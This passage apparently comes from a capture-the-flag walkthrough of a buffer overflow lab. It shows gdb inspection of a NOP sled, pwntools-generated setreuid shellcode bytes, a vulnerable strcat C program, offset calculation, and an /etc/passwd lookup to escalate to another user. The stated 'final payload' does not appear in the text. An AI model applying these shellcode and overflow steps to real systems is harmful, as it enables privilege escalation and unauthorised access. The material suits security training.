 See where NOP sled string is located and beginning of shellcode:
`x/100x $rsp-200`
NOP Sled = 0x90909090
shellcode = 0x2f6e6962 (x\\62696e2f)
Let’s take any address between the NOP sled and the shellcode (e.g. **0x7fffffffe298**). Here is the final payload:


**setreuid**

Let’s use pwntools to generate a prefix to our shellcode to run SETREUID:

apt-get update  
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential  
python3 -m pip install --upgrade pip  
python3 -m pip install --upgrade pwntools


pwn shellcraft -f d amd64.linux.setreuid 1002 \\x31\\xff\\x66\\xbf\\xea\\x03\\x6a\\x71\\x58\\x48\\x89\\xfe\\x0f\\x05
len('\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')  
14

omgyoudidthissocool!!

##### Task 9

```
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
```
**offset**

The buffer is 154 bytes, but the string `doggo` (5 characters) is added. So we should begin to test from 154-5. Let’s start with 8 more bytes:
gdb -q buffer-overflow-2  
run $(python -c "print('A'*(154-5+8*2+4))")

The offset is 169 (154–5+8*2+4).

We’ll use the same shellcode (158 bytes) as previously, with the SETREUID. This time, we need to target user3 (ID is 1003), to be able to read `secret.txt`:

find the setreuid
`grep <user> /etc/passwd`<user>:x:1003:1003::/home/<user>:/bin/bash
